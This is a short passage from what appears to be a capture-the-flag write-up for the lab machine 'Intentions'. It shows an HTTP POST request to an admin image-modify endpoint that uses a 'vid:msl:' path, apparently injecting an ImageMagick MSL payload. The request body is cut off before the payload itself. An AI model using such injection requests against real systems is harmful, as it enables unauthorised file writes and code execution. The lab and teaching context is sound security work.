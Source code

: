 ![image-20240326004845921](./Intentions.assets/image-20240326004845921.png)

POST Body -> msl payload

**Payload**:

```
POST /api/v2/admin/image/modify?path=vid:msl:/tmp/php*&effect=imqwe HTTP/1.1
Host: 10.10.11.220
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
X-XSRF-TOKEN: eyJp...iIn0=
Origin: http://10.10.11.220
Connection: close
Referer: http://10.10.11.220/admin
Cookie: token=eyJ0...RaUJw; XSRF-TOKEN=eyJ...joiIn0%3D; intentions_session=eyJ...iIn0%3D
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryePkpFF7tjBAqx29L
Content-Length: 377

------WebKitFormBoundaryePkpFF7tjBAqx29L
```